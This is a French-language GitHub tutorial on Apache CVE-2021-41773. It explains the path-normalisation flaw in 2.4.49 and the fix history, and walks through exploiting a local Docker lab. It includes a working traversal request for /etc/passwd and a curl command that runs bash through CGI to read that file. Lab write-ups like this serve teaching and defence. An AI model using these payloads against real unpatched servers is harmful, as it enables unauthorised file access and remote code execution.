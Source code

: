 # Apache CVE-2021-41773 : Guide de compréhension et d’exploitation  

Ce guide vous accompagne dans la compréhension et l’exploitation de la **vulnérabilité CVE-2021-41773** dans Apache, en détaillant comment **le path traversal et l'exécution de code à distance (RCE)** étaient possibles en raison d'une validation incorrecte des entrées. Vous découvrirez comment cette vulnérabilité a été introduite, comment les attaquants l'ont exploitée et comment elle a finalement été corrigée.

L’attaque **CVE-2021-41773** est une vulnérabilité découverte dans **Apache HTTP Server 2.4.49**, qui permet à un attaquant non authentifié d’accéder à des fichiers en dehors du répertoire racine du serveur via un contournement des restrictions de chemin d’accès (**path traversal**).

📌 **Problème dans le code source**  
Le problème vient d’une modification du fichier **"modules/http/http_request.c"** dans Apache 2.4.49, qui a introduit une erreur dans le processus de normalisation des chemins. Cette erreur permet aux attaquants d’utiliser des séquences comme **`../../`** pour contourner les restrictions et accéder à des fichiers arbitraires sur le serveur.

⚠️ **Détails de l’attaque**  
1. **Path Traversal** : L’attaque exploite cette mauvaise gestion des chemins pour accéder à des fichiers sensibles en dehors du répertoire autorisé.  
2. **Exécution de code** : Si le module CGI est activé, un attaquant peut exécuter du code arbitraire sur le serveur, entraînant une vulnérabilité de **Remote Code Execution (RCE)**.  
3. **Conditions** : La vulnérabilité est présente uniquement si la directive **`Require all denied`** n’est pas correctement configurée.
---

## Prerequisites

1. **Curl installé** : Assurez-vous que curl est installé sur votre système.  
   - Vérifiez avec :  
     ```bash
     curl --version
     ```

2. **Docker installé** : Assurez-vous que Docker est installé sur votre système.  
   - Vérifiez la version de Docker :  
     ```bash
     docker --version
     ```
     
## Exploiting the Vulnerability
### Payload for Exploitation
Une requête malveillante comme :  GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
permet de lire des fichiers en dehors du répertoire racine.

### Steps to Exploit

1. Télécharger l'image Docker contenant l'application vulnérable démontrant la faille RCE via path traversal
        ```bash
 docker pull eddycaron/diable:rcepathtraversal
     ```

3. Lancer l'application vulnérable dans un conteneur Docker en mode détaché (en arrière-plan) et lier le port 8080 du conteneur au port 80 de l'hôte
      ```bash
 docker run -d -p 8080:80 --name rcept eddycaron/diable:rcepathtraversal
     ```

4. Envoyer une requête HTTP malveillante via curl pour exploiter la vulnérabilité de path traversal et exécuter une commande arbitraire (bash), récupérant ainsi le fichier /etc/passwd
        ```bash
 curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d "echo Content-Type: text/plain; echo; cat /etc/passwd" -H "Content-Type: text/plain" 
     ```


# Impact

- **Accès non autorisé à des fichiers sensibles** : L'exploitation de la vulnérabilité permettait à un attaquant de lire des fichiers en dehors du répertoire racine du serveur, comme des fichiers de configuration ou des mots de passe.  
- **Exécution de code à distance (RCE)** : En exploitant le CGI, un attaquant pouvait exécuter du code arbitraire sur le serveur, compromettant ainsi la sécurité du système.  
- **Exposition des systèmes** : Si la vulnérabilité n'était pas corrigée, elle exposait potentiellement des systèmes à des attaques de type **remote code execution**, entraînant un risque d'élévation de privilèges et d'accès non autorisé à des ressources sensibles.


# Mitigation
Correctif:
La vulnérabilité a été corrigée dans Apache 2.4.50, mais cette version était toujours vulnérable à une variante de l’attaque (si le caractère "point" est encodé deux fois en URL, la vulnérabilité persiste). Ce n’est qu’avec Apache 2.4.51 que le problème a été définitivement résolu.

pour plus de detaille, et pour voir le code source: https://www.hackthebox.com/blog/cve-2021-41773-explained

## Key Takeaways 

- Cette vulnérabilité illustre les risques liés à une mauvaise gestion de la normalisation des chemins dans Apache.  
- Des attaquants pouvaient exploiter cette faille pour accéder à des fichiers sensibles ou exécuter du code à distance (RCE).  
- Toujours valider et filtrer les entrées utilisateur pour éviter les attaques de type path traversal et injection de commande.  
